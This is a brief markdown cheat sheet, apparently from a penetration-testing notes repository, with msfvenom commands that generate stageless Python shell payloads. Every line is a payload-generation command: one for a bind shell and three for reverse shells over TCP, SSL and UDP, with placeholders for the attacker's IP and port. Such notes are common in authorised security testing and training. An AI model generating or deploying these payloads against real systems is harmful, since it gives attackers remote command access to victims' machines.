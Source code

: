 # Stageless

## 01 - Bind Shells

```
$ msfvenom -p python/shell_bind_tcp lport=<PORT> -o shell.py
```

## 02 - Reverse Shells

```
$ msfvenom -p python/shell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.py

$ msfvenom -p python/shell_reverse_tcp_ssl lhost=<IP> lport=<PORT> -o shell.py

$ msfvenom -p python/shell_reverse_udp lhost=<IP> lport=<PORT> -o shell.py
```